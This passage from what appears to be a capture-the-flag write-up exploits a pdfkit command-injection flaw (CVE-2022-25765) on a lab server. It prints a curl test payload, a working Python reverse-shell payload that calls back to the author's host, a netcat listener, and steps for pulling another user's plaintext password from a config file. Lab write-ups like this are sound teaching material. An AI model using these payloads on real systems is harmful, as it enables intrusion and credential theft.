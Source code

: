 This web server uses ```pdfkit v0.8.6``` to do the PDF conversion. Upon a Google search, there is an exploit for this version of pdfkit - it is vulnerable to command injection. Inputs to Pdfkit are not properly sanitized, and query string parameters in URLs are run as commands. This exploit is [CVE-2022-25765](https://nvd.nist.gov/vuln/detail/CVE-2022-25765), and [Snyk have some PoCs](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

To see if this server is vulnerable, we can enter a fake URL, and inject a command into the parameter which attempts to get our web server using ```curl```. If we see a hit on the web server, we will know that this has executed.

##### Payload:
>http://example.com/?name=#{'%20`curl -XGET [my IP]'}

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
[target] - - [22/Dec/2022 21:58:42] "GET / HTTP/1.1" 200 -
```

As expected, we see a hit on our web server - the vulnerable server executed our command, and so is vulnerable to command injection. We can now create a reverse shell. I used a Python shell taken from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python), and used a netcat listener.

##### Command for Listener:
>nc -lnvp 1234

##### Payload:
>http://[my ip]/?name=%20'python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[my ip]",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")''

And this worked!

```
└─$ nc -lnvp 1234                                                                             	1 ⨯
listening on [any] 1234 ...
connect to [my ip] from (UNKNOWN) [target ip] 44382
$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

### Lateral Movement

We now have access to the ```ruby``` user. After snooping around, there is another user called ```henry```, with the user flag in their home directory. We must now pivot to henry’s user. Snooping around Ruby’s home directory, we find a hidden folder called ```.bundle```, containing a file with ```henry```’s credentials.
```
$ pwd
pwd
/var/www/pdfapp
$ cd ~
cd ~
$ ls -a
ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .bundle  .cache  .profile
$ cd .bundle
cd .bundle
$ ls
ls
config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
$ su henry
```